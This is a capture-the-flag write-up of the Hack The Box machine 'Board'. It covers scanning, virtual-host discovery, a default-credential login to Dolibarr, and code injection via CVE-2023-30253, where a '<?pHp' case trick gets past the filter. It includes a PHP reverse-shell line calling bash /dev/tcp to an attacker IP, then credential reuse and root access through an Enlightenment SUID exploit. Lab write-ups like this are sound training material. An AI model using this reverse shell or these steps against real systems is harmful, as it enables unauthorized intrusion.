 ```yaml
---
date: 2024-09-29
categories: [Linux, Easy]
---
```


![Logo](https://github.com/user-attachments/assets/997ea495-b7d7-49e5-83fe-5747fa781fbe)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [cY83rR0H1t](https://app.hackthebox.com/users/116842)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.11 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/847f9aac-35ba-483a-a1ff-a1f17d892d4d)

    
- Scanning open ports.
    
    ```bash
    nmap -p22,80 -sCV 10.10.11.11 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4af6c432-5608-4d56-b5ca-ce6d1d162183)

    
- I look at what technologies they are using on the website. I found a path with this acknowledgement and added it to the `/etc/hosts` file
    
    ```bash
    whatweb http://10.10.11.11
    ```
    
    ![image 2](https://github.com/user-attachments/assets/3f40d9c0-17f0-4c0b-b3d6-7d4999b0250b)

    
    ![image 3](https://github.com/user-attachments/assets/a1a16ad8-6a53-4258-806e-8b7063887c59)

    

- After searching for a while through the site and the routes discovered with gobuster I can't find anything relevant. When searching for virtual host I find one, `crm`
    
    ```bash
    wfuzz -c -t 200 --hh=15949 -w /usr/share/amass/wordlist/subdomains-top1mil-110000.txt -H "Host: FUZZ.board.htb" http://board.htb
    ```
    
    ![image 4](https://github.com/user-attachments/assets/136c7374-9ecf-4c64-9931-df865cd0cff1)

    

- I add it to the /etc/hosts file and enter the site
    
    ![image 5](https://github.com/user-attachments/assets/1022eef5-74b8-4ed5-a082-df4ef70f3972)

    

- I search for the default credentials `admin`:`admin` and get access.
    
    ![image 6](https://github.com/user-attachments/assets/f84e9d4c-a5e3-448c-9659-f6ac6f6143dc)

    
- When looking for vulnerabilities of this version I find the CVE-2023-30253 that consists in creating a website and a page to which we can add php code. This has a validation that does not allow us to introduce the string “php” but when we put it in the following way if it allows us.
    
    [Security Advisory: Dolibarr 17.0.0 PHP Code Injection (CVE-2023-30253) - Swascan](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)
    
- We add a piece of code to create a reverse shell and we enter to see the page that we have just created to execute our code.
    
    ```bash
    <?pHp
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.205/4242 0>&1'");
    ?>
    ```
    
    ![image 7](https://github.com/user-attachments/assets/a198ee8c-4795-42ba-8bdb-cd93643ee12d)

    
- I start listening on port 4242 and I get a shell
    
    ```bash
    nc -nlvp 4242
    ```
    
    ![image 8](https://github.com/user-attachments/assets/61e1c3de-c498-49e3-b457-dcfa01c6a673)

    
- I search the Dolibarr configuration file and find some mysql credentials.
    
    ![image 9](https://github.com/user-attachments/assets/bba71c30-76de-44c2-8d2e-0b2d864c6c8f)

    
- I try to reuse the password found with the user `larissa` that I find by looking at the `/etc/passwd` file.
    
    ![image 10](https://github.com/user-attachments/assets/9e28d658-97cb-459a-9960-bc46f729bf71)

    
- Searching for suid permissions I find some unusual files and running leanpeas confirms my suspicions. The enlightenment files with versions prior to 0.25.4 have a vulnerability listed in `CVE-2022-37706`.
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
    ![image 11](https://github.com/user-attachments/assets/7424bc86-2196-487d-8ca9-310a94dd7e42)

    
    ![image 12](https://github.com/user-attachments/assets/7fd9cefb-a033-4ce7-abd2-67ce911e2cb4)

    
- I find a POC of this CVE and by executing it I manage to escalate my privileges and become root
    
    [CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
    
    ![image 13](https://github.com/user-attachments/assets/5b67c560-7461-48e8-a39c-ce984ba199be)

